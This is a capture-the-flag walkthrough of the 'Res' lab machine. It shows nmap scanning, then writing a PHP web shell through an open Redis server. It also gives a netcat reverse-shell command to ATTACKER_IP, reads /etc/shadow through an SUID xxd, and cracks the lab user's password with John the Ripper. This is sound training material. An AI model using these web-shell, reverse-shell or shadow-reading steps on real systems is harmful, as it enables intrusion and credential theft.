# Res

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `redis`,  `reverse shell`,  `xxd`

---

##### Written: 23/11/2021

##### IP address: 10.10.46.25

---

### [ Scan the machine, how many ports are open? ]

As always, we start off with a **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.46.25
```

**Results:**



The results show **2** ports open

---

### [ What's is the database management system installed on the server? ]

**Redis** is installed on the server.

---

### [ What port is the database management system running on? ]

It is installed on port **6379**.

---

### [ What's is the version of management system installed on the server? ]

From the nmap scan, we can see that the version is **6.0.7**.

---

### [ Compromise the machine and locate user.txt ]

After doing some research online, I found this website which teaches us how to obtain Remote Code Execution via a Redis server:

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis



<br>

We can connect to the Redis server using **redis-cli** (Installation: `sudo apt install redis-tools`)

```
redis-cli -h 10.10.46.25 -p 6379
```

By default, Redis servers do not require authentication to login. Fortunately, this is the case for us as we can log in without needing to supply any credentials!



<br>

Next, we need to set the working directory of our Redis client to the root directory of the web server.

**HTTP Web server on port 80:**



From the webpage, we know that the web server is running **Apache**. The root directory of Apache servers is **/var/www/html**.

We can then follow the exploit instructions like so:

```
// in redis-cli

config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo(); ?>"
save
```

This will create a new PHP file called **redis.php** in the /var/www/html directory of our target machine. We then set a key 'test' with a value of `<?php phpinfo(); ?>`

To test whether we can access this redis.php file and run the code, we visit `http://10.10.46.25/redis.php`:



Nice! It works :smile: 

<br>

Now let's change the PHP code so that we can inject some commands:

```  
// in redis-cli

set test "<?php system($_GET['cmd']); ?>"
save
```

When this PHP code runs, it will get the '**cmd**' parameter from the GET request sent to the web server. **system()** will then execute that command on the machine.

We then set up a netcat listener running on a port of our choice.

Finally, we can open up a reverse shell by visiting `http://10.10.46.25/redis.php?cmd=ATTACKER_IP PORT -e /bin/bash`



And we're in!

<br>

Visiting the **/home** directory, we can see that there is one other account: **vianka**.

The user flag can be found in vianka's home directory:



---

### [ What is the local user account password? ]

Let's do some manual enumeration.

Looking through Vianka's files yielded nothing of interest. There was also nothing useful in directories like **/opt** and **/tmp**.

Next, I decided to search for SUID-bit set files:

```
find / -type f -perm /u=s 2>/dev/null
```

**Results:**



We have an interesting file: **xxd**

<br>

Looking on GTFOBins, we can find the following way to exploit this program: https://gtfobins.github.io/gtfobins/xxd/



It seems that we can use this program to read any file that we like on the system. Let's follow the exploit steps and read **/etc/shadow**:

```
LFILE=/etc/shadow
./xxd "$LFILE" | xxd -r
```



And we have found Vianka's hashed password (at the bottom).

<br>

We then use **John the Ripper** to crack the password.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

**Results:**



Password: **beautiful1**

---

### [ Escalate privileges and obtain root.txt ]

We can now log into Vianka's account.



Let's check Vianka's **sudo privileges**:

```
sudo -l
```



Turns out Vianka has complete sudo privileges, meaning they can run any program as any user, including root!

We can then obtain the root flag directly from the root home directory using `sudo`.

```
sudo cat /root/root.txt
```



